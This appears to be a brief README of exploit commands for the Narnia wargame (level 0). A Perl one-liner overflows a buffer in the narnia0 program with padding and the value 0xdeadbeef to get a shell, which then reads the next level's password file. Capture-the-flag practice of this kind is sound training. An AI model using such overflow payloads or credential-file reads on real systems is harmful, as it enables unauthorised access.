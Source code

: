# BlackHatWhiteHat
Perl Script and Linux Commands

echo $(perl -e 'print "B"x20 . "C"x4;') | ./narnia0

(echo $(perl -e 'print "B"x20 . "\xef\xbe\xad\xde"x4;') && cat;) | ./narnia0

whoami

echo OWNED

cat /etc/narnia_pass/narnia1
